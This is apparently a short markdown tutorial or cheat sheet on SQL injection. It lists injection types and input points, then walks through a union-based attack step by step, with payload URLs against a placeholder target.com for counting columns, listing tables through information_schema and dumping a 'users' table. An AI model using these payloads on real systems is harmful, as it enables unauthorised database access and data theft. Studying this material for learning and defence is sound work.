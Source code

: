 # sql injection

SQL injection is a technique where a malicious user can inject SQL Commands into an SQL statement via a web page.

#### Type of SQL Injection

* In Band
* Out of Band
* Blind SQLI

#### SQLI Exploitation Technique


* Error Based Exploitation
* Union Based Exploitation
* Boolean Based Exploitation
* Time-Based Delay Exploitation
* Out of Band Exploitation

#### Try to Identify- where the application interact with DB


* Authentication Page
* Search Fields
* Post Fields
* Get Fields
* HTTP Header
* Cookie

#### Basic sql Functions

cmd | Description
----|-----------
SELECT |	read data from the database based on search criteria
INSERT |	insert new data into the database
UPDATE |	update existing data based on given criteria
DELETE |	delete existing data based on given criteria
Order By |	used to sort the result-set in ascending or descending order
Limit By |	the statement is used to retrieve records from one or more tables


#### Exploit

###### Break the Query

* first we break the query using Character String Indicators `‘ “  \` . by breaking query we get sql error. Example.

` You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ”1” LIMIT 0,1′ at line 1 `

* * * 

##### Fix the Query

* next we Fix the query using comment `# or – -(hyphen hyphen)`

* * * 

##### order clause

* Now we will try to add query between the quote and comment to get information from the database

* We used `SELECT` query to get information from database. to execute two `SELECT` querty we need to use `UNION` in between select queries. but `Union` have precondition that number of columns in both select statement should be same. so next we need to find out number of columns. we find out number of columns using `order by`

*ORDER BY clause will arrange the result set in ascending or descending order of the columns used in the query.*

`http://target.com/product?id=2' order by 1,2,3 --`

* * * 

###### find vuln columns

* now we can use `UNION` operator with another `SELECT` query.next we find the columns to get output.

`http://target.com/product?id=2' union select 1,2,3 --` it will display columns number which we use to extract information from database.

* * * 


###### find tables in database.

`http://target.com/product?id=2' union select 1,table_name,3 from information_schema.tables where table_schema=database() --`

Get all table names

`http://target.com/product?id=2' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --`

* * *

###### finding columns in tables

`http://target.com/product?id=2'  union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --`

* * * 

###### To get Content of columns

`http//target.com/product?id=2' union select 1,group_concat(coumns_name),3 from table_name --`

* * * 